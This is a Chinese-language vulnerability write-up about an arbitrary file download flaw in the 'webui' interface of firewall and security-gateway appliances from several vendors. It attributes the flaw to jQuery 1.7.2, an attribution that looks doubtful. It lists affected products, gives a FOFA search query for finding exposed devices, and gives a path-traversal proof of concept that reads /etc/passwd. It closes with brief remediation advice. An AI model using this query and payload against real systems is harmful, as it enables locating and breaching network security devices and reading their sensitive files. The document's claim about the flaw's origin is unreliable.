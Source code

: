 ## JQuery 1.7.2版本站点前台任意文件下载漏洞

## 漏洞描述

使用了JQuery 1.7.2的JavaScript库的站点可通过前台任意文件下载，可读取敏感文件。

## 漏洞影响

> 使用了JQuery 1.7.2版本的站点

## FOFA

> body="webui/js/jquerylib/jquery-1.7.2.min.js"

## 漏洞复现

搜索结果如下：

![1](resource/JQuery1.7.2版本任意文件下载漏洞/1.png)

其中涉及的产品较多，例如：

```
H3C SecPath 下一代防火墙
迈普 ISG1000安全网关
北京圣博润LanSecS第二代防火墙
深圳市万网博通科技有限公司下一代智能防火墙
任子行网络技术股份有限公司任天行网络安全管理系统
中新金盾防火墙
睿峰网云防火墙
安博通深度安全网关
安博通应用网关
金电网安第二代防火墙
蓝盾防火墙
蓝盾信息安全管理审计系统
网御上网行为管理系统
中兴皖通智能多业务网关
卓智智能安全网关
等等。。
```

就拿圣博润举例吧：

登录界面如下：

![2](resource/JQuery1.7.2版本任意文件下载漏洞/2.png)

###POC如下

```
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![3](resource/JQuery1.7.2版本任意文件下载漏洞/3.png)

再来测试下前台访问

![4](resource/JQuery1.7.2版本任意文件下载漏洞/4.png)

因该漏洞涉及较多，请勿发布至其他公开站点，谢谢配合。

修复建议：

```
1、对用户输入做控制，最好使用白名单。

2、禁止../与其变形。

3、升级到其他安全版本。
```